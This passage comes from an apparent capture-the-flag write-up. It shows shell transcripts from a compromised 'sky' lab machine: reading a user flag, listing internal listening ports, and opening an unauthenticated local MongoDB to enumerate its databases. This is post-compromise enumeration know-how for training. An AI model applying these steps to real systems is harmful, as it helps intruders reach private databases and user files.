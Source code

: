 ```bash
www-data@sky:/home$ cd webdeveloper
cd webdeveloper
www-data@sky:/home/webdeveloper$ ls -la
ls -la
total 36
drwxr-xr-x 4 webdeveloper webdeveloper 4096 Oct  8  2021 .
drwxr-xr-x 3 root         root         4096 May 25  2021 ..
lrwxrwxrwx 1 webdeveloper webdeveloper    9 May 25  2021 .bash_history -> /dev/null
-rw-r--r-- 1 webdeveloper webdeveloper  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 webdeveloper webdeveloper 3771 Feb 25  2020 .bashrc
drwx------ 2 webdeveloper webdeveloper 4096 May 25  2021 .cache
drwxrwxr-x 3 webdeveloper webdeveloper 4096 May 25  2021 .local
-rw------- 1 webdeveloper webdeveloper   51 Oct  8  2021 .mysql_history
-rw-r--r-- 1 webdeveloper webdeveloper  807 Feb 25  2020 .profile
-rw-r--r-- 1 webdeveloper webdeveloper    0 Oct  7  2021 .sudo_as_admin_successful
-rw-r--r-- 1 webdeveloper webdeveloper   33 May 25  2021 user.txt
www-data@sky:/home/webdeveloper$ cat user.txt
cat user.txt
63191e4ece37523.....REDACTED
```

And we got www-data’s shell!

---

### Shell as Webdeveloper

While enumerating directories , services and etc. things. We can see that an internal port 27017(default port for mongodb) was open internally, let’s check if we can access mongodb shell directly.

```bash
www-data@sky:/var/www/html/phpMyAdmin$ ss -tuln
ss -tuln
Netid State  Recv-Q  Send-Q     Local Address:Port    Peer Address:Port Process 
udp   UNCONN 0       0          127.0.0.53%lo:53           0.0.0.0:*            
udp   UNCONN 0       0        10.10.8.71%eth0:68           0.0.0.0:*            
tcp   LISTEN 0       4096       127.0.0.53%lo:53           0.0.0.0:*            
tcp   LISTEN 0       128              0.0.0.0:22           0.0.0.0:*            
tcp   LISTEN 0       70             127.0.0.1:33060        0.0.0.0:*            
tcp   LISTEN 0       511            127.0.0.1:9000         0.0.0.0:*            
tcp   LISTEN 0       4096           127.0.0.1:27017        0.0.0.0:*            
tcp   LISTEN 0       151            127.0.0.1:3306         0.0.0.0:*            
tcp   LISTEN 0       511                    *:80                 *:*            
tcp   LISTEN 0       128                 [::]:22              [::]:*
```

And we were able to gain mongodb’s shell internally, let’s enumerate it and gain our juicy things.

```bash
www-data@sky:/var/www/html/phpMyAdmin$ mongo
mongo
MongoDB shell version v4.4.6
connecting to: mongodb://127.0.0.1:27017/?compressors=disabled&gssapiServiceName=mongodb
.....
> show dbs
shshow dbs
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
> use backup
ususe backup
switched to db backup
> show collections;
shshow collections;
collection
```